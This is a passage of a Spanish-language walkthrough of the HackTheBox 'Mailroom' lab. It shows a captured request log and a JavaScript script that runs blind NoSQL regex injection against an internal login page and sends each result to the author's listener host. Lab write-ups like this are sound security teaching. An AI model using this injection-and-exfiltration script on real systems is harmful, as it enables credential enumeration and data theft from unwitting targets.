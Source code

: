 Nos devuelve decodificado:

{"success":false,"message":"Invalid input detected"}{"success":true,"message":"Check your inbox for an email with your 2FA token"}
{% highlight sh %}
10.10.11.209 - - [13/Aug/2023 21:44:25] "GET /?data=%7B%22success%22%3Afalse%2C%22message%22%3A%22Invalid%20input%20detected%22%7D%7B%22success%22%3Atrue%2C%22message%22%3A%22Check%20your%20inbox%20for%20an%20email%20with%20your%202FA%20token%22%7D HTTP/1.1" 200 -
{% endhighlight %}

NOSQL Injection es valido.


El siguiente script funciona hasta cierto tiempo, el usuario no alcanza a recorrer toda la string de caracteres, por lo que obtener todo el email no seria posible de un solo tiro, habra que ir acortando la string de caracteres.

Por alguna razon no logre hacer funcionar `fetch` ni funciones `async`.

Recorre cada caracter y por cada caracter envia una peticion `nosql - regex` al subdominio y el resultado lo envia a nuestro servidor.

`pwn.js`
{% highlight javascript %}
const l1nvx = "http://10.10.14.189:8000";
const url = "http://staff-review-panel.mailroom.htb";
function main() {
    try {
        const chars = `0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~`;
        for (const char of chars) {
            nosql(`${char}`);
        }
    } catch (error) {
        const req = new XMLHttpRequest();
        req.open("GET", `${l1nvx}/?error=${encodeURIComponent(error)}`, false);
        req.send();
    }
}
function nosql(char) {
    const req = new XMLHttpRequest();
    const req_ = new XMLHttpRequest();
    const know = "";
    const payload = encodeURIComponent(`${know}${char}`);
    const body = `email[$regex]=^${payload}&password[$ne]=l1nvx`;
    let status;
    req.onreadystatechange = () => {
        if (req.readyState === XMLHttpRequest.DONE) {
            if (req.responseText.includes("true")) {
                status = "true";
            } else {
                status = "false";
            }
            req_.open("GET", `${l1nvx}/?char=${char}&status=${status}`, false);
            req_.send();
        }
    }
    req.open("POST", `${url}/auth.php`, false);
    req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    req.send(body);

}
main();
{% endhighlight %}
